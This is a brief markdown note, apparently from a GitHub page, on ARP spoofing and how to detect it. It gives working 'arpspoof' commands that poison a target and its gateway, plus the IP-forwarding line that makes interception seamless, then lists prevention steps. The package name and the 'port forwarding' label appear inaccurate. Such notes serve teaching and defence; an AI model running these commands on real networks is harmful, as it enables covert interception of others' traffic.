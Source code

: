 ```yaml
---
---

````bash
sudo apt install dnssniff
arpspoof -i <interface> -t <target-ip> <router-ip>
arpspoof -i <interface> -t <gateway-ip> <target-ip>
````

The target device will not have access to the internet after running the above commands as our device is not an router and does not forward packets.  
Port Forwarding can be enabled using following command: `echo 1 > /proc/sys/net/ipv4/ip_forward`

---
```


### Prevention

1. <u>ARP Poisoning</u>  
Manually check the ARP table for duplicate MAC Addresses  
Xarp : Application used to automatically detect ARP poisoning

2. <u>Detect ARP Storm/ Poisoning</u>  
Wireshark - Protocol - ARP - Detect ARP Request Storm  
Analyze - Expert Information  
Alternate approach is to define Static ARP
